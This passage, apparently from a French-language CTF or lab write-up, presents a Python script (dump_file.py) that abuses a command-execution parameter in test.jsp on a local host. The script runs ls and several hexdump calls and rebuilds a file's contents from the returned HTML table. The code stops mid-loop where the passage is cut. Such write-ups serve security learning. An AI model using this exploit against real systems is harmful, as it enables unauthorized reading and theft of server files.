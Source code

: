 On s’aperçoit tout de même qu'il faut un appel à hexdump de plus pour obtenir une colonne (les index 9, 17, 25, etc).  

J'ai écrit un script baptisé *dump\_file.py* permettant de reconstruire un fichier texte via les trois appels à hexdump appelés depuis *test.jsp* :  

```python
import sys
from urllib.parse import quote
from binascii import unhexlify
from subprocess import check_output, getoutput

import requests
from bs4 import BeautifulSoup

URL = "http://192.168.1.10:8080/test.jsp?path={}"
filename = sys.argv[1]

def exec(cmd):
    url = URL.format(quote(cmd))
    response = requests.get(url)
    soup = BeautifulSoup(response.text, "lxml")
    infos = []
    for i, row in enumerate(soup.select_one("table:nth-of-type(2)").find_all("tr")):
        if i == 0:
            continue
        columns = []
        for column in row.find_all("td"):
            columns.append(column.text.strip())

        infos.append(columns)
    return infos

def get_size(filename):
    return int(exec("ls -l {}".format(filename))[0][2])

def reconstruct(dest, hexdump1, hexdump2, hexdump3):
    dest[0] = ord('?')
    dest[1] = ord('?')
    for i, row in enumerate(hexdump1):
        for j, column in enumerate(row):
            if j in (0, 1, 2):
                index = i*16 + j*2 + 2
                dest[index] = int(column[2:], 16)
                dest[index+1] = int(column[:2], 16)
            else:
                index = i*16 + 14
                dest[index] = int(column[2:], 16)
                dest[index+1] = int(column[:2], 16)

    for i, row in enumerate(hexdump2):
        for j, column in enumerate(row):
            if j in (0, 1, 2):
                index = i*16 + j*2 + 8
                dest[index] = int(column[2:], 16)
                dest[index+1] = int(column[:2], 16)
            else:
                index = i*16 + 20
                dest[index] = int(column[2:], 16)
                dest[index+1] = int(column[:2], 16)

    for i, row in enumerate(hexdump3):
        for j, column in enumerate(row):
            if j == 0:
                index = i*16 + 16
```